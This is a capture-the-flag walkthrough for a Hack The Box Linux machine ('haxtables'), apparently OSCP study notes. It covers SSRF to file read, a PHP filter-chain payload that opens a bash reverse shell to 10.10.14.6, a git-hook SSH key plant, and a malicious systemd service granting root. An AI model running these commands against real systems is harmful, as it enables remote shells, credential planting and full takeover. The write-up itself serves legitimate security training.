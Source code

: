 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 10.10.11.198
nmap -p 22,80 -sCV 10.10.11.198
```
- Ports open: 22 [SSH](SSH), 80 [HTTP](HTTP.md)
- Hostname discovered: `haxtables.htb`

### Website Enumeration
- `/index.php?page=...` suggests PHP file includes
- Site for "string and number converter"
- `api.haxtables.htb` referenced

### Subdomain Enumeration
```
wfuzz -u http://10.10.11.198 -H "Host: FUZZ.haxtables.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 1999
```
- Discovered: `api.haxtables.htb`, `image.haxtables.htb`

### Directory Bruteforce
```
feroxbuster -u http://haxtables.htb -x php
```
- Found: `/handler.php`, `/includes/`, etc.

## Shell as www-data

### SSRF Discovery
- `/handler.php` POSTs to API using `uri_path`
- SSRF by injecting `@10.10.14.6` into `uri_path`

### File Read via `file://`
```python
json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
```
- File read works, use Flask proxy to exfil files easily

### Flask Proxy
```python
from flask import Flask, Response
import requests
...
@app.route('/<path:file>')
def get_file(file):
    req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
    resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
    return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")
```

### LFI to RCE via Filter Chain
```bash
python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
```
- SSRF to include malicious filter payload to trigger RCE

## Shell as svc

### Privilege Escalation via Git Hook
- `www-data` can sudo as `svc` via `/scripts/git-commit.sh`
- Git repo in `/var/www/image/.git`, writable by `www-data`
- Write `post-commit` hook to insert SSH key for `svc`
```bash
echo 'mkdir -p /home/svc/.ssh
echo "<pubkey>" >> /home/svc/.ssh/authorized_keys
chmod 600 /home/svc/.ssh/authorized_keys' > .git/hooks/post-commit
chmod +x .git/hooks/post-commit
```
- Modify work-tree to include new file:
```bash
git --work-tree /etc add /etc/hostname
sudo -u svc /var/www/image/scripts/git-commit.sh
```
- SSH as `svc`

## Shell as root

### Privilege Escalation via Systemd
- `svc` can run `sudo systemctl restart *`
- `/etc/systemd/system` is writable by `svc`

### Malicious Service
```ini
# /etc/systemd/system/0xdf.service
[Unit]
Description=0xdf command service

[Service]
ExecStart=/tmp/0xdf
Type=simple
Restart=always

[Install]
WantedBy=multi-user.target
```
```bash
# /tmp/0xdf
mkdir -p /root/.ssh
echo '<pubkey>' > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
touch /tmp/script_ran
chmod +x /tmp/0xdf
```
- Trigger with: `sudo systemctl restart 0xdf`

## Root Access
- SSH as `root` using injected key
- Read `/root/root.txt`
